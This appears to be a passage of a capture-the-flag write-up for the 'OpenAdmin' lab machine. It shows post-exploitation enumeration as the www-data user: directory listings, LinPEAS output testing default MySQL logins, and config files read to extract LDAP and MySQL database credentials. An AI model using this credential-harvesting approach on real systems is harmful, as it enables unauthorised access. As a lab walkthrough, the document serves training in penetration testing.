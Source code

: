 ```
(remote) www-data@openadmin:/opt$ ls -l
total 4
drwxr-x--- 7 www-data www-data 4096 Nov 21  2019 ona
-rw-r--r-- 1 root     root        0 Nov 22  2019 priv
```

```
(remote) www-data@openadmin:/opt/ona$ ls -l
total 28
-rw-rw-r--  1 www-data www-data 2159 Jan  3  2018 README.md
-rw-rw-r--  1 www-data www-data    8 Jan  3  2018 VERSION
drwxrwxr-x  2 www-data www-data 4096 Jan  3  2018 bin
drwxrwxr-x  2 www-data www-data 4096 Jan  3  2018 docs
drwxrwxr-x  2 www-data www-data 4096 Jan  3  2018 etc
drwxrwxr-x  2 www-data www-data 4096 Jan  3  2018 sql
drwxrwxr-x 10 www-data www-data 4096 Nov 22  2019 www
```

## LDAP Password
```
(remote) www-data@openadmin:/var/www/ona$ cat config/auth_ldap.config.php
...
//$conf['auth']['ldap']['bindpw']   = 'mysecretbindpassword';
...
```

## Local MySQL Service
```
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN
```

### MySQL LinPEAS Scan
```
[+] MySQL version
mysql  Ver 14.14 Distrib 5.7.28, for Linux (x86_64) using  EditLine wrapper

[+] MySQL connection using default root/root ........... No
[+] MySQL connection using root/toor ................... No
[+] MySQL connection using root/NOPASS ................. No
[+] Searching mysql credentials and exec
From '/etc/mysql/mysql.conf.d/mysqld.cnf' Mysql user: user		= mysql
Found readable /etc/mysql/my.cnf
!includedir /etc/mysql/conf.d/
!includedir /etc/mysql/mysql.conf.d/
```

## MySQL Database Credentials
`/opt/ona/www/local/config/database_settings.inc.php`

```
...
'db_type' => 'mysqli',
'db_host' => 'localhost',
'db_login' => 'ona_sys',
'db_passwd' => 'n1nj4W4rri0R!',
...
```
